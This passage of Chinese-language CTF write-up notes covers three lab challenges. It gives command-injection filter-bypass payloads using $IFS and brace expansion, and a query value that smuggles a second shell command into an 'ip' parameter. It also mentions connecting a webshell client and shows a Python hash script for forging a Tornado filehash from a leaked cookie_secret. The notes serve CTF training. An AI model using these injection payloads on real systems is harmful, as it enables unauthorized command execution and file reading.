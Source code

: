 过滤了flag，空格

空格绕过：
```
{cat,flag.txt}
cat${IFS}flag.txt
cat$IFS$9flag.txt
cat<flag.txt
cat<>flag.txt
```
可以看命令执行绕过 黑名单绕过

[命令执行](http://www.yongsheng.site/2021/01/17/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%BB%95%E8%BF%87/)

payload:
```
?ip=;a=g;cat$IFS$3fla$a.php
```

---
# [极客大挑战 2019]Knife
直接蚁剑连接

---
# *[护网杯 2018]easy_tornado（hash加密）
- 考点： Tornado

![](https://img-blog.csdnimg.cn/20210422163525677.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
分别是：
>flag in /fllllllllllllag
render
md5(cookie_secret+md5(filename))


需要构造url内容是：
```
file?filename=/flllllllag&filehash=xxxxxxxx

filehash= md5(cookie_secret+md5(/fllllllllag))
```

网上搜 Tornado render payload：

![](https://img-blog.csdnimg.cn/20210422163643686.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
拿到 cookie_secret:  a8c9da8f-0f16-456e-bd0c-41949deab23e

计算hash脚本：
```python
import hashlib

filename = '/fllllllllllllag'
cookie_secret ="a8c9da8f-0f16-456e-bd0c-41949deab23e"

def getvalue(string):
    md5 = hashlib.md5()
    md5.update(string.encode('utf-8'))
    return md5.hexdigest()

def merge():
    print(getvalue(cookie_secret + getvalue(filename)))

merge()
```

---